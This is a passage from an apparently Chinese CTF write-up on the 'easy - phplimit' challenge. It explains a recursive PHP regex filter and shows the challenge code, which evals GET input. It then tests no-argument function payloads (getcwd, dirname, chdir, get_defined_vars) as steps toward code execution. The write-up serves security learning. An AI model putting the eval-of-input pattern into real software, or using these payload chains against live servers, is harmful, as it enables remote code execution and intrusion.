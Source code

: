 
#### OUT:

```
int(1) string(0) "" string(3) "abc"
```

从以上的输出结果，可以明显的发现，`'/\((?R)*\)/'`这个正则表达式，进行自身循环匹配。


### 从一道ctf题浅析利用

题目的名字为[easy – phplimit][0]，是p神出的一个练习代码审计的题目。源码如下：

```php
<?php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
eval($_GET['code']);
} else {
    show_source(__FILE__);
}
```

第二部分也提到了，这个正则是对'()'的一种循环匹配，`"';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])"`这关系式的意思是，

从code参数中，匹配匹配字母、数字、下划线，其实就是'\w+'，然后在匹配一个循环的'()'，将匹配的替换为NULL，判断剩下的是否只有';'。

于是就开始翻阅[手册][http://www.php.net/manual)，这个真的是好东西。以下是对这一块的探究：][1]

自搭建环境测试

```
getcwd(): 获取当前路径

IN:

?code=print_r(getcwd());

OUT:

A:\tools\phpStudy\WWW\study
dirname(): 返回路径中的目录部分

IN:

?code=print_r(dirname(getcwd()));

OUT:

A:\tools\phpStudy\WWW
```

这里对dirname($path)进行一个解释：该函数的返回值为，返回path的父目录。如果在 path中没有斜线，则返回一个点('.')，

表示当前目录，因此此处为父目录`'A:\tools\phpStudy\WWW'`，后面使用chdir时是当前目录。

```
chdir(): 改变工作目录
IN:
?code=print_r(chdir(getcwd()));
OUT:
1
成功返回1(true)
get_defined_vars(): 返回由所有已定义变量所组成的数组
IN:
?test=1&code=print_r(get_defined_vars());
OUT:
Array([_GET] => Array ( [test] => 1 [code] => print_r(get_defined_vars()); ) [_POST] => Array ( ) [_COOKIE] => Array() ) [_FILES] => Array ( ) [a] => Array()....
```

[0]: http://51.158.75.42:8084/
[1]: http://www.php.net/manual)%EF%BC%8C%E8%BF%99%E4%B8%AA%E7%9C%9F%E7%9A%84%E6%98%AF%E5%A5%BD%E4%B8%9C%E8%A5%BF%E3%80%82%E4%BB%A5%E4%B8%8B%E6%98%AF%E5%AF%B9%E8%BF%99%E4%B8%80%E5%9D%97%E7%9A%84%E6%8E%A2%E7%A9%B6%EF%BC%9A
[2]: https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html